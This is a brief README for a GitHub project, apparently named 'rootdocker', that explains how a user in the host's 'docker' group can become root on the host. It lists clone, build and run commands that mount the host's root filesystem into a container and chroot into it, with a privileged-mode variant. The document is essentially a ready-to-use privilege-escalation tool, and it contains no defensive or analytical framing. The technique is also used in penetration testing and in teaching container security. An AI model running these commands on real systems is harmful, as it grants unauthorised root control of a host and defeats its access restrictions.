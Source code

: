 # rootdocker
Become a root on host using docker if the user in group "docker"<br />
Basically this container will mount the host inside the container and then chroot the mounted directory <br />

###### How to use:
`git clone https://github.com/Hamza-Megahed/rootdocker.git`<br />
`cd rootdocker`<br />
`docker build -t rootdocker .`<br />
`docker run -v /:/host -i -t rootdocker`<br />
or <br />
`docker run ---privileged -v /:/host -i -t rootdocker`<br />

